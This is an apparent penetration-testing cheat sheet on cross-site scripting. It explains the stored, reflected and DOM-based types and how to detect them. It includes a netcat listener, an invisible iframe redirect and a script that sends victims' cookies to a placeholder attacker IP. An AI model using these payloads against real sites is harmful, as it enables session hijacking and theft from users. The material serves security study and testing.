 # XSS

> Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.

```bash
#The famous test script:
<script>alert('test')</script>
```

## Types of XSS

**Applications should sanitize all user inputs. Else, we can try to execute code.**

### Stored XSS:

Persistent XSS stored in a database. Every user who access the vulnerable page will receive the payload. Examples are: Forums and comment sections.

### Reflected XSS:

The payload is included in the URL. It only affects people accessing the malicious link. Example: Search bars.

### DOM-Based XSS:

Where content of an input is used to change something in the page. Example: Changing the background input.

_____

## Detecting XSS

In a persistent XSS, where we insert some input that will be stored in a database (like a forum or a comment section), we can try to add special characters in order to test how the application threats those characters.

For example, inserting the following in a comment section:

```bash
< > ; ""
```

If we inspect the results in the browser developer console and we see that these characters are not encoded, it's likely that the page is vulnerable to XSS.

_____

## Redirecting with XSS

Once we identify an XSS vulnerability, we can insert an invisible iframe in the page in order to redirect the client to our location.

```JavaScript
//Setup listener in attacker machine:
nc -nlvp $PORT
//Invisilble iframe to inject in the vulnerable page:
<iframe scr=$URL height="0" width="0"></iframe>
```

_____

## Stealing Cookies

If HttpOnly (deny JavaScript access cookies) cookie flag is not set, we can modify the payload to hijack user cookies (we should review other browser security controls, not only HttpOnly):

```JavaScript
<script>new Image().src="http://$IPADDRESS/image.jpg?output="+document.cookie;</script>
```

_____

## BeEF
> BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors.
